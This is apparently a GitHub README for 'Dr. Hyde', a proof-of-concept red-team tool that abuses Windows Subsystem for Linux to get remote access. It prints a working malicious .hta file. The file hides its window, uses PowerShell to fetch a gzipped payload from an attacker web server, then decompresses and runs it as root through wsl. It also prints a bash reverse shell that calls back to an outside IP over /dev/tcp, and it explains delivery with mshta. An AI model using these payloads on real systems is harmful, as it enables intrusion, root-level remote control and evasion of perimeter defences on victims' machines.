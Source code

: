 


Windows Subsystem for Linux 2 (WSL) allows developers to run GNU/Linux applications on a lightweight virtualized Linux kernel, which interfaces with the Windows kernel, hence the "Subsystem". While this has been a powerfull efficiency tool for red team engagements and penetration tests, it presents some glaring security issues for the system itself.

Starting in build 22H2 of Windows 10 and 11, the `wsl` PowerShell command allows users to call Linux commands and programs by prefacing them with the `wsl`. For example:

![Pasted image 20230206162823](https://github.com/TheTyPhyter/DrHyde/assets/45110834/007ea9e0-0c7b-43be-8f82-ea012c6ee373)


Interestingly when working from within the Linux kernel, Windows commands can also be called:


![Pasted image 20230206163615](https://github.com/TheTyPhyter/DrHyde/assets/45110834/6929abf8-4367-466c-8cba-0aba89f139ef)

The above screenshots demonstrate the ability to call commands between the kernels, which is the intended function of the feature. Unfortunately, I beleive this creates an insecure system, allowing attackers to hide malicous bash scripts and linux binaries. The Linux Kernal also has access to most of the Windows file system, including write privilege to the user startup folder and other sensitive directories. WSL also comes with the ability to run commands as `root` without authentication. 


# The Attack

By combining Linux and Windows commands, it becomes possible to develope a unique attack chain. 

## Setup

A web server hosts a malicious .hta (HTML Application, see below) which allows us to execute Javascript on the target machine.
```
<html>  
<head>  
<script language="JScript">  
  
function sleep(milliseconds) {  
        timeStart = new Date().getTime();  
        while (true) {  
            elapsedTime = new Date().getTime() - timeStart;  
            if (elapsedTime > milliseconds) {  
                break;  
            }  
        }  
    }  
   
window.moveTo(-1, -1);  
window.blur();  
window.resizeTo(0, 0);  
WshShell = new ActiveXObject("WScript.Shell");  
outFile = " $home/2.gz";  
line1 = "%comspec% /k powershell.exe -WindowStyle hidden Invoke-Webrequest http:\/\/192.168.1.197:8000/1.gz -outfile";  
line2 = "%comspec% /k powershell.exe -WindowStyle hidden wsl -u root gzip -d /mnt/c/Users/$env:UserName/2.gz";  
line3 = "%comspec% /k powershell.exe -WindowStyle hidden wsl -u root bash /mnt/c/Users/$env:UserName/2";  
WshShell.Run(line1 + outFile);  
sleep(1000);  
WshShell.Run(line2);  
sleep(5000);  
WshShell.Run(line3);  
</script>  

<hta:application  
caption="no"  
windowState="minimize"  
showInTaskBar="no"  
scroll="no"  
navigable="no" />            <!--  -->  
</head>  
<body>  
</body>  
</html>
```


- We also host a bash script that has been compressed into a .gz in an effort to evade perimeter defense. This bash script sets up a reverse TCP connection to the attack box by redirecting stdin and stdout to the tcp connection.

```
#! /bin/bash
sh -i >& /dev/tcp/45.79.112.50/4445 0>&1
```


# Dr. Hyde

Dr. Hyde is a proof of concept tool that that starts a simple Python HTTP server to host our payloads. It also starts a simple tcp listener to catch a non-interactive shell. Once the reverse shell is established, it becomes possible to run both bash and PowerShell commands.

We enter the command `mshta <URL to Malicious .hta>`

- The JavaScript in the .hta calls the %comspec% variable (which is the directory where the default command interpreter, CMD, lives) which in turn calls powershell to download the compressed bash script from our malicous webserver.
- The next command calls wsl as root to decompress the file and save the output to the users home directory.
- The last command executes the bash script as root establishing the connection back to the listener on the attack box.

After the attack chain is complete, the remote attacker is left with a non-interactive shell as the user "root" on the Linux shell, and the victim user in the Windows PowerShell.

After persistence is established, standard methods of gaining an interactive shell can be employed, and having access to GNU/Linux toolsets improves conditions for the attacker. 

## Demo





https://github.com/TheTyPhyter/DrHyde/assets/45110834/d634a706-9f82-4350-a1de-c2aa64073fc0

